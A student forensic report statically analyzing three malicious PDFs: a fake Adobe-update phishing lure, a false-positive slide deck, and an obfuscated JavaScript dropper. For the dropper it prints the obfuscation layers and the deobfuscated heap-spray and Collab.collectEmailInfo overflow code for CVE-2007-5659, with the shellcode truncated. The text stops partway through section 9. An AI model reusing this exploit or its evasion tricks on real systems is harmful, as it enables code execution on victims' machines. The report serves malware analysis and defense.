# Static Forensic Analysis of Malicious PDF Documents

- **Course:** Digital Forensics, Task 2 (Groups 15 to 23)
- **Institution:** Institut Teknologi Sepuluh Nopember (ITS)
- **Group:** 21
- **Date:** 7 October 2026
- **Members:**

| Name | NRP |
|---|---|
| Junathan Richie | 5025231019 |
| Muhammad Quthbi Danish Abqori | 5025241036 |

> **Safety notice.** This repository contains **no malware samples**. All indicators of compromise (URLs, domains, IP addresses) are written in defanged form (for example `hxxp://` and `[.]`), including inside tool output, so they cannot be clicked by accident. The Python scripts `deobf_s4.py` and `decode_shellcode.py` only *read* and *decode* data; they never execute the malicious code.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [Background: PDF Structure and Attack Surface](#2-background-pdf-structure-and-attack-surface)
3. [Analysis Environment](#3-analysis-environment)
4. [Tools](#4-tools)
5. [Dataset](#5-dataset)
6. [Methodology](#6-methodology)
7. [Sample S1: Fake Adobe Update Phishing PDF](#7-sample-s1-fake-adobe-update-phishing-pdf)
8. [Sample S2: False Positive Case Study](#8-sample-s2-false-positive-case-study)
9. [Sample S4: JavaScript Exploit Dropper (CVE-2007-5659)](#9-sample-s4-javascript-exploit-dropper-cve-2007-5659)
10. [Indicators of Compromise](#10-indicators-of-compromise)
11. [MITRE ATT&CK Mapping](#11-mitre-attck-mapping)
12. [Discussion](#12-discussion)
13. [Conclusion and Recommendations](#13-conclusion-and-recommendations)
14. [Repository Contents and Script Usage](#14-repository-contents-and-script-usage)
15. [References](#15-references)

---

## 1. Introduction

The Portable Document Format (PDF) is one of the most trusted file formats in everyday use. Invoices, receipts, academic papers and official letters are all exchanged as PDFs, and most users open them without hesitation. Attackers exploit this trust in two main ways:

1. **Social engineering.** The PDF itself contains no exploit, but its content (an image, a fake dialog, a QR code) persuades the victim to click a link that leads to a credential phishing page or a malware download.
2. **Exploitation.** The PDF contains active content, usually JavaScript, that abuses a vulnerability in the PDF reader to run attacker code on the victim's machine as soon as the document is opened.

The goal of this task is to install PDF forensics tools, obtain real malicious PDF samples from a public malware repository, and analyze them **statically**, meaning the internal structure of each file is inspected without ever opening it in a PDF reader or executing its code. This report documents the environment, the tools, the methodology and the findings for each sample, and ends with a list of indicators of compromise (IOCs) and recommendations.

Three samples were analyzed and each turned out to represent a different category:

| ID | Category | Verdict | SHA256 hash |
|---|---|---| --- |
| S1 | Link-based phishing (fake "Adobe Reader update") | Malicious | 245f16270bf0dfece1ac13f06e2554d059f82b6bc53b1f19b0d835f409b5d80f |
| S2 | Legitimate slide deck flagged by a few vendors | **False positive** | 3050d75d5dc63d1242722f52b9f538376e3ee04844f624d33d2a072549864589 |
| S4 | Obfuscated JavaScript exploit with download-and-execute shellcode | Malicious | 4dc9b0c20ea61d91d6a1b5bdce76fb5365de0762efb8f6c2925113c6a8950cae |

---

## 2. Background: PDF Structure and Attack Surface

A PDF file consists of four parts:

| Part | Description |
|---|---|
| Header | The first line, for example `%PDF-1.4`, declares the format version. |
| Body | A collection of numbered *indirect objects* (`N 0 obj ... endobj`). Objects are dictionaries, arrays, strings, numbers or **streams** (binary data such as images, fonts, page content or scripts, usually compressed with a filter such as `/FlateDecode`). |
| Cross-reference table (xref) | Byte offsets of every object so a reader can jump directly to them. |
| Trailer | Points to the root object (`/Root`, the **Catalog**) and to the xref table. The file ends with `%%EOF`. |

Objects reference each other with the syntax `N 0 R`. A reader starts at the Catalog and follows references to the page tree, pages, fonts, images and actions.

The following keywords are the most relevant for malware triage:

| Keyword | Meaning | Risk |
|---|---|---|
| `/JS`, `/JavaScript` | The document contains JavaScript | High |
| `/OpenAction`, `/AA` | An action that runs automatically when the document or a page is opened | High (especially combined with JavaScript) |
| `/Launch` | Launches an external program | High |
| `/EmbeddedFile` | A file is hidden inside the PDF | High |
| `/URI` | A clickable link | Medium (phishing) |
| `/AcroForm`, `/XFA` | Interactive forms, historically abused in exploits | Medium |
| `/RichMedia` | Embedded Flash or media | Medium |
| `/ObjStm` | Object streams, which can hide objects from simple scanners | Note |
| `/Encrypt` | Encrypted document, may hinder analysis | Note |
| `/JBIG2Decode` | Image codec abused in historic exploits | Note |

---

## 3. Analysis Environment

### 3.1 Virtual machine

All analysis was performed inside an isolated virtual machine running **REMnux**, a Linux distribution built for malware analysis.

| Item | Value |
|---|---|
| Hypervisor | Oracle VirtualBox |
| Guest OS | REMnux (Ubuntu 24.04.5 LTS "Noble Numbat", 64-bit) |
| Kernel | 6.8.0-100-generic x86_64 |
| Memory | 6144 MB |
| Processors | 2 |
| Shared folders | None |



*Figure 1. Output of `uname -a` and `cat /etc/os-release` inside the analysis VM.*


### 3.2 Safety rules followed

1. Samples were downloaded only inside the VM and kept in password-protected ZIP files until analysis.
2. After extraction, every sample was renamed to `sampleN.pdf.malware` so it cannot be opened by double-clicking.
3. No sample was opened in a PDF reader, browser or any program that interprets PDF content. Only parsers that read the file as data were used.
4. Extracted JavaScript was read as text only. It was never run in Node.js, a browser or any JavaScript engine. Deobfuscation was done with custom Python scripts that simulate the string operations statically.
5. Reputation lookups (VirusTotal, MalwareBazaar, NVD) were done **by hash or by name only**. No sample was uploaded and no malicious URL was visited.

---

## 4. Tools

| Tool | Version | Purpose in this analysis |
|---|---|---|
| `pdfid.py` (Didier Stevens) | 0.2.10 | Fast triage: counts risky PDF keywords and computes entropy |
| `pdf-parser.py` (Didier Stevens) | 0.7.14 | Object statistics, keyword search, object inspection, stream decompression and extraction |
| `qpdf` | 11.9.0 | Structural validation (`--check`) |
| `exiftool` | 13.50 | Metadata extraction |
| FLARE FLOSS | 3.1.1 | String extraction (installed for cross-checking) |
| PDForensic (Maurice Lambert) | 2022-2024 release | Alternative PDF parser (installed for cross-checking) |
| `file`, `sha256sum`, `md5sum`, `strings` | REMnux system packages | Identification and hashing |
| `deobf_s4.py` (this repository) | 1.0 | Static deobfuscator for the S4 JavaScript |
| `decode_shellcode.py` (this repository) | 1.0 | Static XOR decoder and API hash resolver for the S4 shellcode |

Two further helpers were used without recording their versions: `js-beautify`, which reformats the minified S4 JavaScript for reading (Section 9.5), and `pdfminer.six` (`pdf2txt.py`, `dumppdf.py`), which was installed for cross-checking only.



*Figure 2. Version and help output of pdfid, pdf-parser, qpdf, pdfminer.six, FLOSS and PDForensic inside the VM.*

---

## 5. Dataset

### 5.1 Source

All samples were downloaded from **MalwareBazaar** (abuse.ch) using the search filter `file_type:pdf`. Each sample is distributed as a ZIP archive protected with the password `infected`.



*Figure 3. MalwareBazaar entry for S1 (`payment-receipt.pdf`), tagged `fake-receipt` and `fake-update`.*



*Figure 4. MalwareBazaar entry for S2.*



*Figure 5. MalwareBazaar entry for S4 (`resume.pdf`), tagged `javascript`, `js` and `pdf`.*

### 5.2 Samples

| ID | File name in lab | SHA256 | MD5 | Size (bytes) |
|---|---|---|---|---|
| S1 | `sample1.pdf.malware` | `245f16270bf0dfece1ac13f06e2554d059f82b6bc53b1f19b0d835f409b5d80f` | `5754058e75aa7cc6377c87000e20bb97` | 182,397 |
| S2 | `sample2.pdf.malware` | `3050d75d5dc63d1242722f52b9f538376e3ee04844f624d33d2a072549864589` | `5cd49e845fc143ecb398d161bab3da5a` | 25,284,561 |
| S4 | `sample4.pdf.malware` | `4dc9b0c20ea61d91d6a1b5bdce76fb5365de0762efb8f6c2925113c6a8950cae` | `930fc7badacf1a19816a97775662ae54` | 216,375 |

A further sample (`sample3.pdf.malware`, SHA256 `6061ddbd42c7cb7c69c51536efdf66d8912fc176f1a29c9ffdca2afc0ba89e44`) was downloaded as a possible replacement for S2 but was **not analyzed** in this report, which is why the sample IDs are not consecutive.



*Figure 6. Samples are renamed to the `.pdf.malware` extension and assigned to shell variables (`$S1`, `$S2`, `$S3`). `$S4` was assigned to `sample4.pdf.malware` in the same way and is used in all later S4 commands.*

---

## 6. Methodology

Every sample went through the same static workflow. Steps 7 and 8 were only needed for S4, which contains JavaScript.

```
1. Identification     file, sha256sum, md5sum, ls -l
2. Metadata           exiftool
3. Triage             pdfid.py -e                       (risky keyword counts, entropy)
4. Structure          pdf-parser.py -a                  (object types, keyword locations)
5. Drill-down         pdf-parser.py --search / -o N     (follow the object chain)
6. Validation         qpdf --check
7. Extraction         pdf-parser.py -o N -f -d          (decompress and save streams)
8. Deobfuscation      js-beautify, deobf_s4.py, decode_shellcode.py
9. Threat intel       hash lookup on MalwareBazaar / VirusTotal, CVE lookup on NVD
10. Verdict           summary table, IOCs, ATT&CK mapping
```

---

## 7. Sample S1: Fake Adobe Update Phishing PDF

### 7.1 Identification and metadata

```
$ file $S1
sample1.pdf.malware: PDF document, version 1.3, 1 page(s)

$ exiftool $S1
PDF Version                     : 1.3
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : jsPDF 2.5.1
Create Date                     : 2026:09:30 05:05:28-07:00
```

**Observations**

* The producer is **jsPDF 2.5.1**, a JavaScript library that generates PDFs inside a web browser or a Node.js script. Legitimate invoices and receipts are normally produced by accounting software, office suites or printers, so jsPDF suggests the file was generated by an automated phishing kit.
* There is no Author, Title or Creator, and the creation date (30 September 2026) is very recent compared with the download date, which is typical of an active phishing campaign.

### 7.2 Triage with pdfid

```
$ python3 ../pdfid.py -e $S1
 PDF Header: %PDF-1.3
 obj                   23
 endobj                23
 stream                 2
 /JS                    0
 /JavaScript            0
 /AA                    0
 /OpenAction            1
 /AcroForm              0
 /Launch                0
 /EmbeddedFile          0
 /XFA                   0
 Total entropy:           7.637145 (    182397 bytes)
 Entropy inside streams:  7.623799 (    178794 bytes)
 Entropy outside streams: 5.165512 (      3603 bytes)
```



*Figure 7. S1 contains no JavaScript, no embedded file and no launch action. The only flagged keyword is a single `/OpenAction`. Almost all of the 182 KB lives inside streams with very high entropy (7.62), which indicates compressed image data.*

### 7.3 Structure and object chain

```
$ python3 ../pdf-parser.py -a $S1
 /Catalog 1: 23
 /Font 14: 5, 6, 7, ... 18
 /Page 1: 3
 /Pages 1: 1
 /XObject 1: 21
Search keywords:
 /OpenAction 1: 23
 /URI 1: 3
```

The Catalog (object 23):

```
obj 23 0
  <<
    /Type /Catalog
    /Pages 1 0 R
    /OpenAction [3 0 R /FitH null]
    /PageLayout /OneColumn
  >>
```

The `/OpenAction` here is **harmless**: it is a destination array that only tells the reader to display page 3 fitted to the window width. It does not run any code.

The page (object 3):

```
obj 3 0
  <<
    /Type /Page
    /MediaBox [0 0 595.28 841.89]
    /Annots
      <<
        /Type /Annot
        /Subtype /Link
        /Rect [0. 841.89 595.28 0.0145]
        /Border [0 0 0]
        /A
          <<
            /S /URI
            /URI (hxxps://update-two-tau[.]vercel[.]app/payment-receipt)
          >>
      >>
    ] /Contents 4 0 R
  >>
```

**This is the malicious element.**

* The page size (`/MediaBox`) is 595.28 x 841.89 points, which is A4.
* The link annotation rectangle (`/Rect`) is `[0 841.89 595.28 0.0145]`, which is **the entire page**.
* `/Border [0 0 0]` makes the link **invisible**.
* As a result, clicking anywhere on the page, including on the "Yes", "No" or "Details" buttons that are drawn inside the image, opens the attacker URL.

The visible content of the page is a single image (XObject 21) showing a blurred document with a fake "Adobe Reader Updater" dialog on top. The blur is a common lure: the victim is told the document cannot be displayed until the reader is "updated", and clicking anywhere triggers the link.

Object chain:

```
Catalog (obj 23)
 |-- /OpenAction -> page 3, view /FitH            (display only)
 '-- /Pages (obj 1) -> Page (obj 3)
                         |-- /Contents (obj 4)  -> draws image XObject 21 (fake Adobe dialog)
                         '-- /Annots -> invisible /Link covering the whole page
                                          '-- /URI hxxps://update-two-tau[.]vercel[.]app/payment-receipt
```

### 7.4 Structural validation

```
$ qpdf --check $S1
PDF Version: 1.3
File is not encrypted
File is not linearized
No syntax or stream encoding errors found; the file may still contain
errors that qpdf cannot detect
```



*Figure 8. pdf-parser shows the Catalog (obj 23), the page with the full-page invisible link (obj 3), and qpdf confirms the file is structurally valid.*

The file is perfectly well formed. It is malicious only because of its *content* (the lure) and its *link*, not because of any malformed structure or exploit. This is why structure-based scanners often miss this kind of PDF.

### 7.5 Threat intelligence



*Figure 9. Vendor verdicts for S1 on MalwareBazaar.*

| Vendor | Verdict |
|---|---|
| ACCE | Unknown |
| ClamAV | Detected |
| DocGuard | Malicious |
| FileScan.IO | Unknown |
| Hybrid Analysis | Unknown |
| inlyse Malware.AI | Benign |
| Kaspersky OpenTIP | Clean |
| Nucleon Malprob | Suspicious |
| Malva.RE | Inconclusive |
| CERT.PL MWDB | No verdict shown |
| ReversingLabs TitaniumCloud | Document.Trojan.Heuristic |
| Spamhaus Hash Blocklist | Suspicious file |
| VirusTotal | No coverage score available on MalwareBazaar |
| YOROI YOMI | Legit |

Vendor opinions are split: four sources flag the file (ClamAV, DocGuard, ReversingLabs, Spamhaus), one rates it suspicious (Nucleon) and the rest are unknown, inconclusive or clean. This is expected for a link-based phishing PDF: the file itself contains no exploit or code, so content scanners have little to detect, and the verdict depends on whether the vendor knows the embedded URL. The static findings above (fake update lure plus invisible full-page link) are therefore the stronger evidence.

### 7.6 Summary

| Field | Value |
|---|---|
| SHA256 | `245f16270bf0dfece1ac13f06e2554d059f82b6bc53b1f19b0d835f409b5d80f` |
| Size / version | 182,397 bytes, PDF 1.3, 1 page |
| Producer | jsPDF 2.5.1 |
| Suspicious keywords | `/OpenAction 1` (view only), `/URI 1` |
| Key objects | Catalog 23, Page 3 (link annotation), Image XObject 21 |
| Technique | Social engineering: fake Adobe Reader update image plus an invisible full-page link |
| IOC | `hxxps://update-two-tau[.]vercel[.]app/payment-receipt` |
| Verdict | **Malicious (phishing / malicious link).** No code runs on open; the risk is the click. |

---

## 8. Sample S2: False Positive Case Study

S2 was selected because pdfid reported `/JS` and `/AA`, which suggested JavaScript triggered by an additional action. Deeper analysis showed that both hits were false positives and that the file is a legitimate presentation.

### 8.1 Identification and metadata

```
$ file $S2
sample2.pdf.malware: PDF document, version 1.3

$ exiftool $S2
File Size                       : 25 MB
Media Box                       : 0, 0, 1920, 1080
Page Count                      : 32
PDF Version                     : 1.4
Tagged PDF                      : Yes
Title                           : The_Ten_Plagues_A_War_Against_The_Gods_Rabbi Nissim Elnecave
Producer                        : macOS Version 12.3 (Build 21E230) Quartz PDFContext
Creator                         : Keynote
Create Date                     : 2025:04:02 01:19:27Z
Modify Date                     : 2025:04:02 01:19:27Z
```

The metadata is consistent with a real 32-slide Apple Keynote presentation (1920 x 1080 slides) exported through macOS Quartz. Unlike S1 (jsPDF) and S4 (empty metadata), it looks like an ordinary user document.

### 8.2 Triage with pdfid

```
$ python3 ../pdfid.py -e $S2
 obj                  856
 stream               102
 /Page                 32
 /JS                    1
 /JavaScript            0
 /AA                    2
 /OpenAction            0
 /Launch                0
 /EmbeddedFile          0
 Total entropy:           7.998964 (  25284561 bytes)
 Entropy inside streams:  7.999182 (  25181653 bytes)
```



*Figure 10. `file`, hashes, exiftool and pdfid output for S2.*

At first sight `/JS 1` and `/AA 2` look alarming.

### 8.3 Verification with pdf-parser

```
$ python3 ../pdf-parser.py -a $S2
Indirect object: 856
 /Catalog 1: 843
 /ExtGState 18: ...
 /Font 6: 8, 9, 22, 23, 39, 853
 /FontDescriptor 5: 844, 846, 848, 851, 855
 /Page 32: ...
 /Pages 5: 2, 70, 136, 201, 842
 /StructElem 590: ...
 /StructTreeRoot 1: 252
 /XObject 59: ...
Unreferenced indirect objects: 10 0 R, 24 0 R, 34 0 R, ... 250 0 R
```

Unlike S1 and S4, the output has **no "Search keywords" section at all**. pdf-parser found no object dictionary that actually contains `/JS`, `/JavaScript`, `/AA`, `/OpenAction` or `/URI`.

```
$ python3 ../pdf-parser.py --search /JS $S2
(no output)

$ python3 ../pdf-parser.py --search /AA $S2
obj 8 0
    /BaseFont /AAAAAB+DINCondensed-Bold
obj 844 0
    /FontName /AAAAAB+DINCondensed-Bold
obj 9 0
    /BaseFont /AAAAAC+DINAlternate-Bold
...
obj 855 0
    /FontName /AAAAAG+HiraginoSans-W6
```

The only `/AA` matches are **font names**. The prefix `AAAAAB+`, `AAAAAC+` and so on is the standard *subset tag* that macOS adds to embedded font subsets. It is not an Additional Action.

Further checks:

```
$ python3 ../pdf-parser.py --search uri $S2
(no output)

$ python3 ../pdf-parser.py --search annots $S2
(no output)

$ strings -n 6 $S2 | grep -Eio "https?://[^ )>\"]+" | sort -u
http://ns.adobe.com/exif/1.0/
http://ns.adobe.com/photoshop/1.0/
http://ns.adobe.com/tiff/1.0/
http://ns.adobe.com/xap/1.0/
http://ns.adobe.com/xap/1.0/mm/
http://ns.adobe.com/xap/1.0/sType/ResourceEvent#
http://ns.adobe.com/xap/1.0/sType/ResourceRef#
http://purl.org/dc/elements/1.1/
http://www.iec.ch
http://www.w3.org/1999/02/22-rdf-syntax-ns#

$ python3 ../pdf-parser.py -o 10 $S2
obj 10 0
 Referencing: 1 0 R

$ python3 ../pdf-parser.py -o 24 $S2
obj 24 0
 Referencing: 17 0 R
```



*Figure 11. `pdf-parser.py -a`, `--search /JS` (empty) and `--search /AA` (font names only).*



*Figure 12. `--search uri`, `--search annots`, the `strings` URL list and objects 10 and 24.*

| Check | Result |
|---|---|
| `/JS`, `/AA` | False positives (see 8.4) |
| `/URI`, `/Annots` | None: the document has no clickable links |
| URLs in strings | Only XMP metadata namespaces (Adobe, W3C, Dublin Core, IEC color profile), present in almost every PDF exported by Apple or Adobe software |
| Unreferenced objects (10, 24, ...) | Empty objects that only hold a reference to a page. They are leftovers of the Quartz PDF writer, not hidden content |
| `/OpenAction`, `/Launch`, `/EmbeddedFile` | None |

### 8.4 Why pdfid produced false positives

pdfid is designed to be fast. It scans the **raw bytes** of the file, including the compressed contents of streams, and counts anything that looks like a keyword. S2 is 25 MB, and 99.6% of it is high-entropy compressed image data (entropy 7.999, which is practically random). In that much random-looking data, byte sequences such as `/JS` or `/AA` followed by a delimiter appear by chance. pdf-parser, by contrast, parses the actual object dictionaries, and found none of these keywords in any real object.

### 8.5 Threat intelligence



*Figure 13. Vendor verdicts for S2 on MalwareBazaar.*

| Vendor | Verdict |
|---|---|
| CyberFortress | Clean |
| DocGuard | Clean |
| Hybrid Analysis | Unknown |
| Joe Sandbox | Clean |
| Nucleon Malprob | Benign |
| CERT.PL MWDB | No verdict shown |
| ReversingLabs TitaniumCloud | Win32.Trojan.Generic |
| Spamhaus Hash Blocklist | Suspicious file |
| VirusTotal | No coverage score available on MalwareBazaar |

Five sources classify the file as clean, benign or unknown. Only two flag it, and the ReversingLabs label `Win32.Trojan.Generic` is a generic Windows executable label, which does not describe anything found inside this PDF. Such labels typically come from hash-reputation feeds rather than from inspecting the content.

### 8.6 Summary

| Field | Value |
|---|---|
| SHA256 | `3050d75d5dc63d1242722f52b9f538376e3ee04844f624d33d2a072549864589` |
| Size / version | 25,284,561 bytes, PDF 1.4 (header 1.3), 32 pages, tagged |
| Producer / creator | macOS 12.3 Quartz PDFContext / Keynote |
| pdfid keywords | `/JS 1`, `/AA 2` (both false positives) |
| Confirmed active content | None (no JavaScript, actions, links, launch actions or embedded files) |
| Vendor consensus | 5 clean/benign/unknown, 2 flagged (generic labels) |
| Verdict | **Not malicious based on static analysis (false positive).** Most likely submitted to MalwareBazaar by mistake or by an automated feed. |

---

## 9. Sample S4: JavaScript Exploit Dropper (CVE-2007-5659)

### 9.1 Identification and metadata

```
$ file $S4
sample4.pdf.malware: PDF document, version 1.4, 0 page(s)

$ exiftool $S4
PDF Version                     : 1.4
Linearized                      : No
Trapped                         : False
Author                          :
Title                           :
Page Layout                     : SinglePage
Has XFA                         : No
Page Count                      : 1
```

**Observations**

* Author and Title are present but **empty**, and there is no Producer, Creator or date. Legitimate software normally fills these fields, so an empty set suggests the file was produced by a malware builder.
* `file` reports **0 pages** while exiftool reports **1 page**. The page tree is unusual enough that the `file` utility cannot count it, which is a minor anomaly worth noting.

### 9.2 Triage with pdfid

```
$ python3 ../pdfid.py -e $S4
 PDF Header: %PDF-1.4
 obj                   20
 endobj                20
 stream                 6
 /Page                  1
 /JS                    2
 /JavaScript            3
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /Launch                0
 /EmbeddedFile          0
 /XFA                   0
 Total entropy:           7.978595 (    216375 bytes)
 Entropy inside streams:  7.979552 (    214105 bytes)
 Entropy outside streams: 5.059198 (      2270 bytes)
```



*Figure 14. S4 combines `/OpenAction` with `/JS` and `/JavaScript`, the classic signature of a PDF that runs JavaScript automatically when opened.*

### 9.3 Structure and the Catalog

```
$ python3 ../pdf-parser.py -a $S4
Indirect object: 20
Indirect objects with a stream: 1, 3, 5, 6, 17, 19
 /Catalog 1: 7
 /Outlines 1: 12
 /Page 1: 14
 /Pages 1: 13
 /XObject 2: 1, 3
Search keywords:
 /JS 2: 7, 18
 /JavaScript 3: 7, 9, 18
 /OpenAction 1: 7
 /AcroForm 1: 7
```

```
$ python3 ../pdf-parser.py --search openaction $S4
obj 7 0
 Type: /Catalog
  <<
    /OpenAction
      <<
        /S /JavaScript
        /JS '(this.WRYXKTNGCHZUIHQNDKDRYSREUUBHDTLWVGNINGPL\(\))'
      >>
    /Dests 8 0 R
    /PageLayout /SinglePage
    /Names 9 0 R
    /Type /Catalog
    /AcroForm 10 0 R
    /Threads 11 0 R
    /Outlines 12 0 R
    /Pages 13 0 R
    /ViewerPreferences << /PageDirection /L2R >>
  >>
```



*Figure 15. `pdf-parser.py -a $S4` and the Catalog (object 7) with its JavaScript `/OpenAction`.*

**Observations**

* The `/OpenAction` runs JavaScript that **calls a function** named `WRYXKTNGCHZUIHQNDKDRYSREUUBHDTLWVGNINGPL`. The long random uppercase name is a typical artifact of automated malware builders.
* The function itself is not defined here. It is defined in a **document-level script** reached through `/Names`.
* `/Dests`, `/Threads` and `/Outlines` are unusual for a one-page document without any text. `/AcroForm` (object 10) contains only `/Fields []`, an empty form. These entries serve no visible purpose and look like template padding from a builder.

### 9.4 Following the object chain

```
$ python3 ../pdf-parser.py --search javascript $S4
obj 9 0
  << /JavaScript 16 0 R >>

obj 18 0
  << /S /JavaScript /JS 19 0 R >>

$ python3 ../pdf-parser.py -o 16 $S4
obj 16 0
  << /Names [(WRYXKTNGCHZUIHQNDKDRYSREUUBHDTLWVGNINGPL) 18 0 R] >>

$ python3 ../pdf-parser.py -o 18 $S4
obj 18 0
  << /S /JavaScript /JS 19 0 R >>

$ python3 ../pdf-parser.py -o 19 $S4
obj 19 0
 Contains stream
  << /Filter /FlateDecode /Length 7179 >>
```



*Figure 16. Object 16 is the JavaScript name tree, which maps the random function name to the JavaScript action in object 18. Object 18 points to object 19, a 7,179-byte FlateDecode-compressed stream that holds the actual code.*

```
Catalog (obj 7)
 |-- /OpenAction  -> JavaScript: this.WRYXKT...NGPL()          (runs on open, only a call)
 |-- /Names (obj 9)
 |     '-- /JavaScript name tree (obj 16)
 |           '-- "WRYXKT...NGPL" -> action (obj 18)
 |                                   '-- /JS -> stream (obj 19, FlateDecode, 7,179 bytes)
 |                                               '-- obfuscated JavaScript (17,497 bytes decompressed)
 |-- /AcroForm (obj 10)  -> /Fields []  (empty form)
 '-- /Pages (obj 13) -> Page (obj 14) -> /Contents (obj 17): "0 0 595.28 841.89 re W n"
```

Document-level scripts in the `/Names` tree are executed when the document loads, before the `/OpenAction`. The attack is therefore split in two: the large script in object 19 defines the function, and the tiny `/OpenAction` calls it. Splitting the code this way means that a scanner looking at the `/OpenAction` alone sees only a harmless-looking function call.

The page content stream (object 17) is:

```
$ python3 ../pdf-parser.py -o 17 -f $S4
 b'0 0 595.28000 841.89000 re W n\n'
```

This only defines an A4 clipping rectangle (`re W n`) and draws nothing. The victim sees a **blank page** while the exploit runs in the background.

### 9.5 Extracting the JavaScript

```
$ python3 ../pdf-parser.py -o 19 -f -d out_s4/js_19_obfuscated.js $S4
$ ls -l out_s4/js_19_obfuscated.js
-rw-rw-r-- 1 remnux remnux 17497 Oct  7 01:01 out_s4/js_19_obfuscated.js
$ js-beautify out_s4/js_19_obfuscated.js > out_s4/js_19.js
```



*Figure 17. Object 19 is decompressed (7,179 bytes to 17,497 bytes) and beautified. The code consists of dozens of variables holding short meaningless string fragments.*

### 9.6 Obfuscation layers

The JavaScript uses three layers of obfuscation.

**Layer 1: hidden `eval`**

```javascript
hyltlzyr = ("kasg", "vfys", "zsjj", ..., "lktc")[("rirh", "msas", ..., "nkls", "eval")];
```

The string `eval` is hidden at the end of a list of random four-letter decoys, so a scanner searching for `eval(` does not find it. From this point on, `hyltlzyr(...)` is used as an alias for `eval(...)`: any string passed to it is executed as code.

**Layer 2: code assembled from fragments**

About 45 variables each hold a tiny piece of code:

```javascript
xshgxzgf = ';whi';
sdgvd = '0,y';
xrswtvc = ' ws';
fchzbi = 'funct';
crldyth = 'ion';
...
gkphk += fchzbi + crldyth + xrswtvc + sjoapzt + xujipt + bhmtsl + ... + vcymzsr;
hyltlzyr(gkphk);
```

The fragments are declared in a scrambled order and concatenated in the correct order just before being passed to the `eval` alias.

**Layer 3: reversed strings**

After layer 2, every fragment is stored **backwards** and passed through a helper function:

```javascript
cpiquaei = wstwaxap(' rav;');    // ";var "
luenv    = wstwaxap(' = m');     // "m = "
oimcxpls = wstwaxap('u%1ec');    // "ce1%u"
mscldb   = wstwaxap('loc.');     // ".col"
```

### 9.7 Static deobfuscation

To recover the hidden code **without executing it**, the script `deobf_s4.py` was written. It reads the JavaScript as text, keeps a table of string variables, simulates the `+` / `+=` concatenations and the string reversal, and saves every string that would have been passed to the `eval` alias as a separate stage file.

```
$ python3 -I ../deobf_s4.py out_s4/js_19.js out_s4/decoded
[+] hyltlzyr(gkphk) -> eval sink, 174 chars saved to out_s4/decoded/stage1.js
    preview: function wstwaxap(yaoduhc){yunkldoes="";while(yaoduhc.length>0){yunkldoes+=yaoduhc.charAt(yaoduhc.length-1);yaoduhc=yaoduhc.substring(0,yaoduhc.length-1);}return yunkldoes;};
    -> 'wstwaxap' looks like a string-REVERSE helper; decoding its calls
[+] hyltlzyr(gkphk) -> eval sink, 2043 chars saved to out_s4/decoded/stage2.js
    preview: var DDpNVDfX = new Array();function kzV0IivL(rqYY0o0m, N1tTAUIH){while (rqYY0o0m.length*2<N1tTAUIH) ...
[=] done, 2 stage(s) extracted
```

**Stage 1 (174 characters)** is the string-reverse helper that layer 3 relies on. The malware's first action is to install its own decoder:

```javascript
function wstwaxap(yaoduhc) {
    yunkldoes = "";
    while (yaoduhc.length > 0) {
        yunkldoes += yaoduhc.charAt(yaoduhc.length - 1);
        yaoduhc = yaoduhc.substring(0, yaoduhc.length - 1);
    }
    return yunkldoes;
};
```

**Stage 2 (2,043 characters)** is the actual exploit:

```javascript
var DDpNVDfX = new Array();

function kzV0IivL(rqYY0o0m, N1tTAUIH) {
    while (rqYY0o0m.length * 2 < N1tTAUIH) {
        rqYY0o0m += rqYY0o0m;
    }
    rqYY0o0m = rqYY0o0m.substring(0, N1tTAUIH / 2);
    return rqYY0o0m;
}

function S3GBCRNU() {
    var ecBcfdoM = 0x0c0c0c0c;
    var brIW1yTY = unescape("%u00e8%u0000%u5d00%uc583%ub914%u018b ... %u0a0c%u3d0d");  // shellcode, 420 bytes
    var VWAbzxUP = 0x400000;
    var WCoEYFdo = brIW1yTY.length * 2;
    var N1tTAUIH = VWAbzxUP - (WCoEYFdo + 0x38);
    var rqYY0o0m = unescape("%u9090%u9090");
    rqYY0o0m = kzV0IivL(rqYY0o0m, N1tTAUIH);
    var jpwZA7Ef = (ecBcfdoM - 0x400000) / VWAbzxUP;
    for (var xEzYibKs = 0; xEzYibKs < jpwZA7Ef; xEzYibKs++) {
        DDpNVDfX[xEzYibKs] = rqYY0o0m + brIW1yTY;
    }
}

function Qy9QDRgu() {
    S3GBCRNU();
    var YTDNPHwC = unescape("%u0c0c%u0c0c");
    while (YTDNPHwC.length < 44952) YTDNPHwC += YTDNPHwC;
    this.collabStore = Collab.collectEmailInfo({
        subj: "",
        msg: YTDNPHwC
    });
}
Qy9QDRgu();
```



*Figure 18. `deobf_s4.py` recovers two hidden stages: the string-reverse helper (stage 1) and the heap spray plus exploit trigger (stage 2).*

### 9.8 Exploit analysis

Stage 2 is a textbook **heap spray** followed by a **buffer overflow** trigger.

**Heap spray (function `S3GBCRNU`)**

1. `brIW1yTY` holds the shellcode (210 UTF-16 code units, which is 420 bytes).
2. `kzV0IivL` grows the string `0x90 0x90 0x90 0x90` by repeated doubling until it is `0x400000 - (420 + 0x38)` = 4,193,828 bytes long. Byte `0x90` is the x86 `NOP` instruction, so this is a **NOP sled**.
3. Each array element is `NOP sled + shellcode`, sized so that together with the 0x38-byte heap header every block occupies exactly **4 MiB** (`0x400000`).
4. The loop runs `(0x0c0c0c0c - 0x400000) / 0x400000` = about 47.2, which means **48 iterations**, allocating roughly 192 MiB of memory. This fills the heap of the Reader process up to and beyond address **`0x0c0c0c0c`**, so that this address almost certainly falls inside a NOP sled.

**Trigger (function `Qy9QDRgu`)**

1. `YTDNPHwC` starts as the bytes `0c 0c 0c 0c` and doubles until its length reaches at least 44,952 characters (it ends at 65,536 characters, which is 131,072 bytes of `0x0c`).
2. This oversized string is passed as the `msg` argument to **`Collab.collectEmailInfo()`**, an Adobe Reader JavaScript API method. In vulnerable versions this method copies the argument into a fixed-size stack buffer without checking its length.
3. The overflow overwrites a return address or function pointer with `0x0c0c0c0c`. Execution jumps to that address, lands in the NOP sled, slides down to the shellcode and runs it.

**Vulnerability identification**

This behavior matches **CVE-2007-5659**: *"Multiple buffer overflows in Adobe Reader and Acrobat 8.1.1 and earlier allow remote attackers to execute arbitrary code via a PDF file with long arguments to unspecified JavaScript methods."* `Collab.collectEmailInfo` is the method publicly associated with this CVE.

| CVE field | Value |
|---|---|
| CVE ID | CVE-2007-5659 |
| Affected | Adobe Reader and Acrobat 8.1.1 and earlier |
| NVD published | 13 February 2008 |
